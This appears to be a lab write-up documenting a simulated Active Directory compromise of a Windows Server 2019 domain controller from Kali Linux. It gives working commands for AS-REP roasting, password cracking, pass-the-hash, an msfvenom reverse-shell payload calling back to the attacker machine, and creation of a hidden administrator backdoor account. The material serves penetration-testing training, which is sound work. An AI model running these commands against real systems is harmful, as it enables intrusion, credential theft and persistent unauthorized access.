





# Advanced Active Directory Attack Simulation: End-to-End Compromise

## 1. Introduction

This project showcases a complete attack chain in a controlled environment, demonstrating how initial weaknesses in Active Directory configurations can lead to full domain compromise. Using Kali Linux and Windows Server 2019, I simulated real-world offensive techniques, including password cracking, enumeration, privilege escalation, and remote exploitation.

---

## 2. Environment Setup
 
For this project, I prepared a controlled lab environment using two virtual machines connected through an isolated internal network named **AD-LAB**. The attacker machine was configured with **Kali Linux**, a penetration testing distribution equipped with all necessary tools. The target machine was set up with **Windows Server 2019**, configured as a **Domain Controller** for the domain **cyberlabs.local**. Manual static IP addresses were assigned to ensure proper network communication: **192.168.1.233** for the Windows Server and **192.168.1.100** for Kali Linux. The Windows Server was installed with **Active Directory Domain Services and DNS**. I created multiple users in Active Directory, including a specific target account named **BTarget**. For the attack setup, **BTarget's account was modified by disabling Kerberos pre-authentication** to make it vulnerable to AS-REP Roasting. The DNS settings on both machines were aligned correctly, and the environment was carefully validated to ensure full connectivity and readiness for attack demonstrations. This configuration allowed realistic simulation of enumeration, authentication, and exploitation scenarios within a typical corporate network structure.

**Attacker Machine:** Kali Linux  
**Target Machine:** Windows Server 2019 (Domain Controller)
**Network:** Internal Network (AD-LAB)
**IP Addresses:**  
- Windows Server 2019: 192.168.1.233  
- Kali Linux: 192.168.1.100
**Domain:** cyberlabs.local  
**Target User:** BTarget

**Tools Used:**
- Impacket Suite (GetNPUsers.py, secretsdump.py)
- rpcclient
- smbclient
- BloodHound + SharpHound
- CrackMapExec
- John the Ripper
- msfvenom
- netcat (nc)
- winPEAS.exe

---

## 3. Attack Scenario Overview

**Goal:**  
The primary objective of this project was to simulate a complete attack chain against a vulnerable Active Directory environment. The attack begins with gaining initial access through **AS-REP Roasting**, targeting user accounts with disabled Kerberos pre-authentication to extract encrypted ticket-granting responses and crack their passwords offline. Once credentials are obtained, the next goal is to **enumerate the domain structure**, gathering information about users, groups, and resources to map out the internal environment. Following successful enumeration, the aim is to **discover potential privilege escalation paths** that would allow moving from a standard user account to higher privileges. Finally, the ultimate goal is to **achieve full system compromise by obtaining a remote shell as Administrator**, demonstrating complete control over the target system. Each phase of the attack chain is executed using real-world tools and techniques, closely mimicking actual adversary behaviors in enterprise networks.


**Attack Flow:**
> AS-REP Roasting ➞ Password Cracking ➞ RPC/SMB Enumeration ➞ BloodHound Mapping ➞ Pass-the-Hash ➞ Reverse Shell Access

---

## 4. Attack Execution

### 4.1 AS-REP Roasting & Password Cracking

**Description:**  
**AS-REP Roasting** is an attack technique targeting user accounts that do not require Kerberos pre-authentication. By requesting AS-REP responses from the Domain Controller, attackers can obtain encrypted **TGTs (Ticket Granting Tickets)** and attempt offline password cracking. The goal is to extract Kerberos AS-REP hashes and crack weak passwords.

**Action:**  
First, I created a `users.txt` file containing the usernames from the **Active Directory**. Then, I used the **GetNPUsers.py** script to request AS-REP hashes from the Domain Controller.

**Commands:**
```bash
impacket-GetNPUsers cyberlabs.local/ -usersfile users.txt -request -dc-ip 192.168.1.233
```

After executing the command, I successfully retrieved the **TGT ticket** of the vulnerable user. I then saved the extracted TGT hash into a file named hashes.txt for offline password cracking.
Subsequently, I used **John the Ripper** with the popular **rockyou.txt** wordlist to attempt cracking the hash.

**Password Cracking:**
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

**Result:**
Successfully cracked **BTarget's password**: password1.



---

### 4.2 Enumeration with RPCClient

**Description:**  
`rpcclient` is a tool used to interact with Windows RPC services. It allows enumeration of users, groups, and detailed information about domain accounts, even without full administrative rights.

**Action:**  
Using the cracked credentials of **BTarget**, I connected to the Domain Controller via `rpcclient` to perform enumeration of users, groups, and account details.

**Command:**
```bash
rpcclient -U 'CYBERLABS.LOCAL\\BTarget' 192.168.1.233
```
Once connected to the RPC interface, I executed the following enumeration commands:
```bash
rpcclient> enumdomusers
```
Enumerated all domain users, including **administrators** and **regular users** (such as AHart, Lcyber, SConnor, BTarget, etc.).

```bash
rpcclient> queryuser 0x1f4
```
Queried the **Administrator** user (RID 500) and retrieved sensitive information such as password last set time, logon count, bad password count, and other account attributes.

```bash
rpcclient> enumdomgroups
```
Listed all domain groups, including highly privileged ones like **Domain Admins, Enterprise Admins, Key Admins, and Group Policy Creator Owners**.

This confirmed that **BTarget** had sufficient privileges to interact with the Domain Controller via RPC, which is a critical foothold in real-world penetration testing and internal audits.

**Result:**
Successfully enumerated all domain users, extracted Administrator account information, and listed key privileged groups inside the Active Directory environment.



---

### 4.3 SMB Share Enumeration

**Description:**  
`smbclient` is a powerful tool that allows connecting to and interacting with Windows SMB/CIFS shares. It is widely used to discover shared resources, explore accessible folders, and download valuable files during enumeration phases, even with limited user privileges.

**Action:**  
After obtaining valid credentials for the **BTarget** user, I connected to the SMB server hosted on the Domain Controller using `smbclient`. This allowed me to enumerate available shares and access critical folders like **SYSVOL** and **NETLOGON**.

**Commands:**
```bash
smbclient -L //192.168.1.233 -U BTarget
```
- Successfully connected to the server using BTarget:password1.
- Discovered default Windows shares:
  - **ADMIN$**: Administrative share (restricted)
  - **C$**: Root of the C: drive (restricted)
  - **IPC$**: IPC communication
  - **NETLOGON**: Login scripts and policies (readable)
  - **SYSVOL**: Group Policy Objects and domain configuration (readable)

Both **NETLOGON** and **SYSVOL** were readable by standard domain users.

**Command:**
```bash
smbclient //192.168.1.233/SYSVOL -U BTarget
smb: \> ls
```
- Accessed the SYSVOL share and listed the directory **cyberlabs.local**, corresponding to the domain name.

**Command:**
```bash
cd cyberlabs.local\\scripts
ls
```
- The **scripts** folder was empty — a normal finding, especially in freshly built domains where login scripts are not used.

✅ **Confirmed**: BTarget had full read access to SYSVOL, demonstrating post-exploitation access and enumeration success.

**Command:**
```bash
cd ..
cd Policies
ls
```
- Found two major folders:
  - `{31B2F340-016D-11D2-945F-00C04FB984F9}` ➔ Default Domain Policy
  - `{6AC1786C-016F-11D2-945F-00C04FB984F9}` ➔ Default Domain Controllers Policy

**Command:**
```bash
cd "{31B2F340-016D-11D2-945F-00C04FB984F9}"
ls
```
- Located key GPO-related files and folders:
  - **GPT.INI** ➔ Group Policy Template version file
  - **MACHINE** ➔ Computer-specific policies
  - **USER** ➔ User-specific policies

**Command:**
```bash
get GPT.INI
cat GPT.INI
```
- Downloaded and opened the `GPT.INI` file.
- Content:
  ```
  [General]
  Version=11
  ```
- Shows GPO versioning — important for tracking policy changes across the domain.

**Command:**
```bash
cd MACHINE
ls
get Registry.pol
```
- Retrieved the **Registry.pol** file, containing actual Group Policy settings (such as password policies, RDP settings, etc.).  
- Note: Registry.pol is in binary format and cannot be directly read using `cat`.

---

**Result:**  
Through SMB enumeration, I successfully:
- Discovered accessible domain shares (**SYSVOL**, **NETLOGON**)
- Browsed internal Group Policy Objects and domain configurations
- Retrieved critical files like **GPT.INI** and **Registry.pol**
- Proved that a low-privileged domain user like BTarget could explore and extract important domain information, simulating a real-world post-exploitation scenario.


---

### 4.4 Active Directory Mapping with BloodHound

**Description:**  
**BloodHound** is a powerful tool designed for visualizing and analyzing Active Directory environments. It identifies complex attack paths, permission misconfigurations, and relationships between domain objects, helping attackers or auditors understand potential privilege escalation routes within a domain.

**Action:**  
First, I prepared my attacker machine (Kali Linux) by installing BloodHound and Neo4j:

**Commands:**
```bash
sudo apt update
sudo apt install bloodhound neo4j -y
```
I started the Neo4j database:
```bash
sudo neo4j console
```
Then accessed it through my browser at `http://localhost:7474/browser/` and logged in with:
- **Username:** neo4j
- **Password:** Password123 (newly set)

After database setup, I launched BloodHound:
```bash
bloodhound
```
Logged in using the same Neo4j credentials.

---

Next, I prepared to collect Active Directory data:
1. Fixed DNS resolution to enable downloading SharpHound.exe:
```bash
sudo nano /etc/resolv.conf
```
Added Google's DNS servers (8.8.8.8 and 8.8.4.4).  
Tested connectivity:
```bash
ping raw.githubusercontent.com
```
Downloaded SharpHound.exe:
```bash
wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe -O SharpHound.exe
```

2. Uploaded SharpHound.exe to the Windows Server:
```bash
smbclient //192.168.1.233/ShareTest -U BTarget
put SharpHound.exe
```
Confirmed successful upload into the ShareTest directory.

3. On Windows Server 2019:
- Copied SharpHound.exe from ShareTest to the Desktop.
- Opened **Command Prompt** as Administrator.
- Navigated to Desktop:
```bash
cd Desktop
```
- Executed SharpHound data collection:
```bash
SharpHound.exe -c All
```
✅ This collected comprehensive AD data and generated a `.zip` file (e.g., `20250426134424_BloodHound.zip`) on the Desktop.

---

4. Retrieved the .zip file from Windows to Kali:
```bash
smbclient //192.168.1.233/ShareTest -U BTarget
get "20250426134424_BloodHound.zip"
```
Saved the file locally for upload.

5. Uploaded the .zip data into BloodHound:
- Opened BloodHound GUI.
- Clicked the Upload Data button (📤 icon).
- Selected the retrieved BloodHound .zip file for analysis.

---

**Result:**  
After importing the data, I visualized the Active Directory structure:
- Located **BTarget** user node.
- Used the BloodHound interface to find **Shortest Paths to High-Value Targets** (e.g., Domain Admins).
- Discovered possible escalation opportunities through permissions like **GenericAll**, **GenericWrite**, **AddKeyCredentialLink**, **GetChanges**, **GetChangesAll**, and even **DCSync** privileges.

This mapping clearly outlined possible attack paths from BTarget towards compromising privileged domain accounts, simulating real-world Active Directory attacks and lateral movement strategies.


### 4.5 Pass-the-Hash (PTH) Authentication

**Description:**  
**Pass-the-Hash (PTH)** is a post-exploitation technique where an attacker authenticates to services using an NTLM hash instead of the user's plaintext password. It allows lateral movement across systems without needing to crack passwords, drastically increasing attack capabilities after initial credential compromise.

**Action:**  
After cracking BTarget’s password, I generated its corresponding NTLM hash manually to perform a Pass-the-Hash attack using **CrackMapExec**.

**Commands:**
```bash
# Generate NTLM hash of "password1"
echo -n 'password1' | iconv -t UTF-16LE | openssl dgst -md4
```
- Output example:
  ```
  (stdin)= 5835048ce94ad0564e29a924a03510ef
  ```
This is the NTLM hash for the cracked password `password1`.

**Performed the Pass-the-Hash attack:**
```bash
crackmapexec smb 192.168.1.233 -u BTarget -H 5835048ce94ad0564e29a924a03510ef --shares
```
✅ Successfully authenticated to the SMB service **without needing the password**, relying solely on the NTLM hash.

✅ Enumerated accessible shares, confirming read/write access to **ShareTest** and read access to **NETLOGON** and **SYSVOL**.

---

**Result:**  
Successfully demonstrated a Pass-the-Hash attack:
- Authenticated as BTarget without knowing the cleartext password.
- Enumerated domain shares over SMB.
- Gained lateral movement capabilities within the internal network.

🛡️ **Real-World Note:**  
In real-world attacks, using PTH means an attacker can compromise and pivot within a domain **without ever cracking passwords** — simply by abusing available hashes.



---

### 4.6 Post-Exploitation Enumeration with winPEAS

**Description:**  
**winPEAS** is a post-exploitation enumeration tool that identifies potential privilege escalation vectors, vulnerable configurations, exposed credentials, and misconfigured permissions on Windows systems.

**Action:**  
After confirming SMB access via PTH, I used **winPEAS** for detailed enumeration.

**Steps:**
1. Downloaded winPEAS.exe:
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany.exe -O winPEAS.exe
```

2. Uploaded winPEAS.exe to the target machine:
```bash
smbclient //192.168.1.233/ShareTest -U BTarget
put winPEAS.exe
```

3. Executed winPEAS.exe manually on the Windows Server:
- Navigated to the **ShareTest** folder.
- Double-clicked **winPEAS.exe** to run it.

✅ winPEAS automatically scanned the system for:
- DLL hijacking opportunities
- Misconfigured services
- Weak file/folder permissions
- Stored passwords and credentials
- System and service details

---

**Result:**  
Identified potential vulnerabilities and misconfigurations useful for privilege escalation and persistence.  
The information gathered provided valuable insights for potential future exploitation within the domain.

✅ Demonstrated full post-exploitation enumeration after initial access.



### 4.7 Reverse Shell Attack

**Description:**  
A **reverse shell** is a post-exploitation technique where the compromised machine initiates a connection back to the attacker's machine, granting the attacker full interactive shell access remotely. It is a crucial step for gaining persistent and interactive control over a target system after initial compromise.

**Action:**  
After performing enumeration and privilege escalation discovery, I generated and deployed a reverse shell to achieve full control over the target machine.

**Steps:**

1. **Generated a reverse shell payload** using `msfvenom`:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o reverse_shell.exe
```
- Created a Windows executable (`reverse_shell.exe`) that, once executed, connects back to my Kali Linux machine on port 4444.

2. **Uploaded the reverse shell payload** to the target Windows Server:
```bash
smbclient //192.168.1.233/ShareTest -U BTarget
put reverse_shell.exe
```
- Uploaded the payload to the writable share **ShareTest**.

3. **Started a Netcat listener** on Kali to wait for the incoming reverse connection:
```bash
nc -lvnp 4444
```

4. **Executed the payload manually** on Windows Server:
- Navigated to the **ShareTest** folder.
- Double-clicked `reverse_shell.exe` to execute it.

✅ As a result, the Windows Server initiated a connection back to Kali, establishing a full shell session!

---

**Result:**  
- Obtained a full **reverse shell** as **Administrator**.
- Executed important system validation commands to confirm full control:
```bash
whoami        # Displays the current username under which the shell is running.
hostname      # Shows the name of the machine (the computer's network name).
net users     # Lists all local user accounts on the system.
systeminfo    # Provides detailed system information (OS version, architecture, hotfixes, etc.).
tasklist      # Lists all currently running processes on the system.
```


✅ Verified administrative privileges and extracted useful system information.



---

**Bonus:**  
To demonstrate full system compromise:
- Created a new text file named `PWNED.txt` on the Administrator's Desktop containing a custom message.

This action proved complete read/write/execute control over the compromised server.


### 4.8 Bonus: Creating a Hidden Administrator Account

**Description:**  
After obtaining Administrator access through a successful reverse shell, I created a hidden backdoor account to maintain persistent privileged access to the Windows Server.

**Action:**  
Using the remote shell, I executed the following commands:

```bash
net user GhostUser P@ssw0rd123 /add
net localgroup Administrators GhostUser /add
```
- `net user GhostUser P@ssw0rd123 /add`: Created a new user account named **GhostUser** with the specified password.
- `net localgroup Administrators GhostUser /add`: Added the **GhostUser** account into the **Administrators** group.

✅ These actions allowed me to establish a **permanent privileged account** on the target machine without relying on the initially compromised user (**BTarget**).

**Result:**  
Successfully created a new **Administrator account** on the Windows Server, allowing independent and persistent access for future actions.


---

## 5. Sources

- [Impacket GitHub - Tools for network protocol manipulation](https://github.com/fortra/impacket)
- [BloodHound GitHub - Active Directory attack path visualization](https://github.com/BloodHoundAD/BloodHound)
- [Red Team Notes - Active Directory Attacks (AS-REP Roasting, Pass-the-Hash, BloodHound Collection)](https://www.thehacker.recipes/ad/movement)
- [Reverse Shell Cheatsheet (Payloads and Commands)](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [PEASS-ng GitHub - Privilege Escalation Awesome Scripts (winPEAS)](https://github.com/carlospolop/PEASS-ng)
- [Kali Linux Official Tools Documentation](https://tools.kali.org/tools-listing)


---

## 6. Conclusion

The project successfully simulated an end-to-end domain attack starting from basic enumeration to full Administrator compromise. Key vulnerabilities exploited included weak Kerberos authentication policies, insecure SMB shares, and lack of proper privilege hardening.

This exercise not only reinforced theoretical concepts but also provided hands-on experience with real-world adversary techniques, preparing me for more advanced penetration testing and security analysis tasks.
